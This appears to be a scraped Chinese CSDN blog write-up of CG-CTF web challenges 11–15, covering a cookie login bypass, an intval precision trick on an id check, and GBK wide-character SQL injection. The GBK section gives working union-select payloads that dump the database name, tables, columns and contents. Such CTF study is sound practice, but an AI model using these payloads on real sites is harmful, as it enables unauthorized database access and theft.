



<!--yml
category: 未分类
date: 2022-04-26 14:19:04
-->

# CG-CTF WEB 解题记录 11-15_aap49042的博客-CSDN博客

> 来源：[https://blog.csdn.net/aap49042/article/details/102388441/](https://blog.csdn.net/aap49042/article/details/102388441/)

#### 写了一部分的web题，算是把它最基础的一部分做了一遍，以后的几天将持续更新CG-CTF WEB部分的题解，为了不影响阅读，所以每五道题的题解以一篇文章的形式发表，感谢大家一直以来的支持和理解，共勉~~~

### Download~!


这个题题库出现了问题，暂时不能访问，随后更新

### COOKIE


打开题目，看到一条提示，0=not，随后我们打开网页 

提示我们please login fist 继续登陆，我们知道cookie就是储存登陆信息的。

这个题目也就是考察cookie，打开BP，抓一下数据包



将Login改为1即可得到flag

### MYSQL



打开题目，给了一条提示Do you know robots.txt？下边是一条百度百科链接 ，查看一下并没有有用的东西

联想以下这个题目，mysql，提示又是Do you know robots.txt？我们知道robots.txt这里的内容吗？？？

于是乎我们查看一下看能不能打开

```
http://chinalover.sinaapp.com/web11/robots.txt
```

```
TIP:sql.php <?php if($_GET[id]) { mysql_connect(SAE_MYSQL_HOST_M . ':' . SAE_MYSQL_PORT,SAE_MYSQL_USER,SAE_MYSQL_PASS); mysql_select_db(SAE_MYSQL_DB); $id = intval($_GET[id]); $query = @mysql_fetch_array(mysql_query("select content from ctf2 where id='$id'")); if ($_GET[id]==1024) { echo "<p>no! try again</p>";
  } else{ echo($query[content]);
  }
} ?>
```

查看到的是这样的代码 ，我们一点一点的提取有用信息

sql.php      并以get形式传输一个id的值T题目中提示了一个1024

那我们就根据提示试一试看能不能得到flag

```
http://chinalover.sinaapp.com/web11/sql.php?id=1024
```

提示no! try again，让我们继续尝试，我们继续使用不同id值进行传输，提示no msg in或者no more

而且大于1025小于1020的id值没有任何返回信息

这个时候我们再回到1024，考虑到内容很大可能就在1024的id里边，但根据代码判断不能是1024才显示

那我们就要想有什么可以等效1024，但不等于1024

那很容易想到时mysql的精度问题，输入1024.9试试

flag就出来了

### GBK Injection



打开题目，我们观察时候首先想到的是改一下id的值看能不能得到答案

改为二之后出现了这样的一段字符gbk_sql_injection

联想提目标题也是GBK injection  这道题就是GBK的宽字符注入了

其他的不说了，直接上文字教程了

爆库id=1%df' union select 1,database %23得到库名 sae-chinalover

爆表id=%df' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() %23 爆表
得到表名 ctf,ctf2,ctf3,ctf4,news
暴字段ctf2表 %df' union select 1,group_concat(column_name) from information_schema.columns where table_name=0x63746632 %23
得到字段名 id,content（别问我为啥选ctf2表，一个一个试出来的）
暴内容 id=%df' union select 1,group_concat(id,0x3a,content) from ctf2 %23

**之后就能得到flag了**